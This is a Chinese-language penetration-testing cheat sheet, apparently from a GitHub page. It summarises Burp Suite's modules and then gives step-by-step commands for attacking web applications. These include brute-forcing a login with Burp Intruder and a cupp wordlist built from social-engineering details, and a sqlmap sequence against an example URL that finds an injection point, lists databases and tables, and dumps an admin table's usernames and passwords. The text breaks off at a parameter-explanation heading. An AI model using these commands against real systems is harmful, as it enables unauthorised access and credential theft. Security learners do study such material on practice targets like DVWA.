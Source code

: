 + Scanner

    一个高级的工具，执行后，它能自动地发现 web应用程序的安全漏洞。

+ Intruder

    高度可配置的工具，对 web 应用程序进行自动化攻击，如：枚举标识符，收集有用的数据，以及使用 fuzzing 技术探测常规漏洞。

+ Repeater

    靠手动操作来补发单独的 HTTP请求，并分析应用程序响应的工具。

+ Sequencer

    用来分析那些不可预知的应用程序会话令牌和重要数据项的随机性的工具。

+ Decoder

    进行手动执行或对应用程序数据者智能解码编码的工具。

+ Comparer

    通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。 

```shell
cupp -i  # 加入社工信息，生成特有字典
proxy -> history  # 找到登录信息
Send to intruder
clear§  # 清楚所有§
add§  # 在需要爆破的地方加§
payloads -> load... # 导入字典
options -> number of threads  # 设置多线程
start attack  # 观察状态码和长度
```

若 Burp 无法抓取 DVWA 等本地包，代理设置中删除 `不使用代理` ：localhost,127.0.0.1即可


[最强手册](<https://momomoxiaoxi.com/2016/01/06/sqlmap-help/>)

```shell
# 检查注入点：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11

# 爆当前数据库信息：
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 --current-db

# 指定库名列出所有表
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 --tables

# 指定库名表名列出所有字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin --columns

# 指定库名表名字段dump出指定字段
sqlmap -u http://aa.com/star_photo.php?artist_id＝11 -D vhost48330 -T admin -C ac，id，password --dump  ('ac,id,password' 为指定字段名称)
```

**参数解释**
